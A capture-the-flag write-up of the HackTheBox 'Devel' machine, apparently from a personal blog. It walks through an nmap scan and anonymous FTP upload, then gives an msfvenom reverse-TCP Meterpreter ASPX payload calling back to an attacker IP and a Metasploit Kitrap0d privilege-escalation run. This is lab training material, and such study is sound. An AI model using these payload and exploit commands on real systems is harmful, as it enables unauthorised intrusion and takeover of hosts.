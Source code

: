 ```yaml
---
title: "Devel - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Devel
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Devel
![](https://kar0nx.github.io/assets/images/writeup/0fb6455a29eb4f2682f04a780ce26cb1.webp)

## Reconnaissance

IP: 10.10.10.5
### NMAP

```
nmap -T4 -p- -A 10.10.10.5
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 08:09 EST
Nmap scan report for 10.10.10.5
Host is up (0.031s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
| 02-17-25  06:48PM       <DIR>          MEIIQMEUQS
| 02-18-25  07:43PM               907553 venom.aspx
| 02-18-25  07:51PM               907558 venom_1.aspx
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose|phone
Running (JUST GUESSING): Microsoft Windows 7|8|Phone|2008|8.1|Vista (90%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Embedded Standard 7 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (87%), Microsoft Windows 7 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.81 ms 10.10.14.1
2   31.13 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.85 seconds

```

Nmap shows that port 21 ftp is open and allow anonymous login to service, also port 80 http is open and using Microsoft iis httpd 7.5

## Website

Nothing special on site.
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219141352.png)

## FTP

```
ftp 10.10.10.5
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219141628.png)
I log in as anonymous and check that can i put file on server. Vio La it is possible, so lets make payload using MSFVenom
## Gaining Access

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.43 LPORT=1234 -f aspx >reverse.aspx
```

next use metasploit and navigate to exploit/multi/handler

```
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1234
```

open file on server by typing url
```
http://10.10.10.5/reverse.aspx
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219150634.png)

we have shell
## Privilege Escalation

Let’s do some enumeration using sysinfo command.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219150723.png)

We will run the post-exploit module from Metasploit suggester

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219150954.png)

Set everything and run.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219151237.png)

Suggester found few exploits. This machine is vulnerable to Kitrap0d so use 4

```
use exploit/windows/local/ms10_015_kitrap0d

set lhost tun0

set session 1

set lport 1337

run
```

We are in, we can check it using getuid

![](https://kar0nx.github.io/assets/images/writeup/1_jfKdxGK9NgMTo9fHQQzXxA.webp)
Now we can capture flag.
